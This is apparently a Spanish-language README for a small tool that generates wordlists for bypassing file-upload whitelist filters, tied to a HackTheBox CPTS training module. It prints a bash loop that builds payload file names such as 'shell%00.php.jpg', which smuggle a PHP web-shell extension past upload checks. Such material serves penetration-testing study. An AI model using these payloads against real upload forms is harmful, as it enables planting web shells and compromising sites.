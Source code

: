 # Character-Injection-2-extension

Simple script que permite generar diccionarios para la inyeccion en el bypass de file upload de CPTS (https://academy.hackthebox.com/module/136/section/1289) Filtros de lista blanca, basicamente es el siguiente script, "pero mejorado".

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

## New Script

## IMG 1

Ingresa el nombre de la carga util y la extension permitida por la pagina donde cargaras el archivo.

![Image](https://github.com/user-attachments/assets/6a20b497-4376-48d6-8098-01127ec288ba)

## IMG 2

![Image](https://github.com/user-attachments/assets/b6f50a57-28a5-4407-980e-22c6c51df185)

## IMG 3

![Image](https://github.com/user-attachments/assets/3f280d48-6031-4721-8eff-30b57e4b9fc1)

## Uso

Solo descarga la herramienta.

Luego dale permisos con chmod +x

y ejecuta.
